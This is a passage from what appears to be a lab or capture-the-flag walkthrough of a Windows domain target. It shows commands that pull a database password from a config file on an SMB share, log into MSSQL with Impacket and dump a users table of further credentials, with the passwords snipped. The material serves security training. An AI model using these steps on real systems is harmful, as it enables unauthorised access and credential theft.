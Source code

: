 As you can see from the above, there is a `prod_db.conf` file within the `prod` share, we'll grab this to see if there's anything we can find within it. You can do so with a simple `get` command.

```
└─$ cat prod_db.conf
user=web_prod
password=[...snip...]
db=prod
```

This file contains the password for `web_prod`, who I would assume much like `web_staging` is able to authenticate regularly to the MSSQL service on the DC. While you can't verify this with `crackmapexec` as this requires your request to go to LDAP (which is currently blocking logins from untrusted domains).

However if we attempt to log-in with Impacket, we can see that the request travels through as intended.

```
└─$ impacket-mssqlclient reflection.vl/'web_prod':'[...snip...]'@10.10.255.149                     
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (web_prod  guest@master)>
```

Let's enumerate a little further into a few of the tables, I noticed immediately that there was a different table in this MSSQL service titled `prod`, so we'll look into that. 

Note that if you relayed your `svc_web_staging` NTLM credentials to MSSQL when we were performing NTLM relay earlier, you would NOT have access to this database. This is because only `web_prod` is able to query it, meaning you would have to relay to SMB anyways. You'd be able to verify that the `prod_db.conf` file exists since you can query the local filesystem with `xp_dirtree` and you would notice that you can view the SMB shares from the `C:\` drive.

```
SQL (web_prod  guest@master)> use prod
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: prod
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'prod'.
SQL (web_prod  dbo@prod)> select table_name from information_schema.tables
table_name   
----------   
users
```

As you can see, there is a similar `users` table within this database, so let's query it to see if there are any other credentials we can receive.

```
SQL (web_prod  dbo@prod)> select * from users
id   name              password            
--   ---------------   -----------------   
 1   b'abbie.smith'    b'[...snip...]'   

 2   b'dorothy.rose'   b'[...snip...]'
```
